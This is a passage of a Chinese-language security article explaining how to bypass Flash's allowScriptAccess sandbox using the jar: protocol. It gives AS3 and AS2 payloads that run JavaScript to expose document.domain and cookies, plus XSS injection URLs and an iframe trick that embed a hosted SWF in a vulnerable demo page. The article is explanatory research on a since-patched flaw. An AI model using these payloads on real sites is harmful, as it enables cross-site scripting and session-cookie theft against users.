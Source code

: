 在对使用allowScriptAccess的方法有了一些初步的了解之后，让我们看看如果不使用它我们会碰到哪些问题。

1.navigateToURL或getURL所要跳转的页面不能设定为null/empty, “_self”, “_parent”, “_top”.

```
navigateToURL(new URLRequest("http://google.com/"),"_self"); 

```

2.我们不能使用javascript来完成跳转

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"testme");

```

看上去第一个问题并不是那么难解决。我们可以使IFrame name, window.open, a标签的target,或form的target等技巧来解决这个问题。而第二个问题我们恰好可以使用之前flash会忽视jar协议的特性来解决。现在让我们试着把这些东西整合到一起。

AS3示例：

```
navigateToURL(new URLRequest("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);"),"testme"); 

```

AS2示例：

```
getURL("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);","testme"); 

```

最后让我们来完成它。假设有一个存在XSS漏洞页面如下：

```
http://www.sdl.me/xssdemo/xss.asp?input=XSS_goes_here

```

如果我们不使用name,那么下面的方法只能应用于firefox。

```
http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf>

```

![2014021816544865336.png](http://drops.javaweb.org/uploads/images/90d09d4ec4729a061fd7811115937a4ad417e3b7.jpg)

但是我们也可以使用name来让它变得可以在其它浏览器中执行。

```
<iframe name="testme" src="http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf>" height="240" width="320"></iframe>

```

这里的embed标签也可以被object标签所取代。不过最终Adobe出了个新补丁封杀了jar协议。印象中是上个月的17号出的。所以如果你想亲自测试一下可能需要你手动安装稍微老的flash版本。如果你是kali linux用户，并且喜欢使用firefox那么这个绕过flash沙箱的方法对你来说应该是轻易可以实现的（我没有特意去更新FF的flash插件，所以在我这里一直是可以用这个方法的）。